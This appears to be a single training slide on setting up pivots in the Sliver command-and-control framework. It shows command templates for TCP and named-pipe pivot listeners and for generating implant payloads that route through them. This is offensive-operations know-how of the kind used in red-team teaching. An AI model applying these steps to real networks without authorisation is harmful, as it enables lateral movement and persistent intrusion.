

# Sliver Pivots
Two steps to set up internal comms with Sliver
Start a pivot listener on the hop you want to pivot through
`pivots tcp --bind <bind_address> -lport <listen port>`
`pivots named-pipe --bind <pipe_name>`
Generate a payload that will talk to your new pivot listener
`generate --tcp-pivot <ip>:<port>`
`generate –named-pipe <ip>/pipe/<pipe_name>`
Double check everything matches!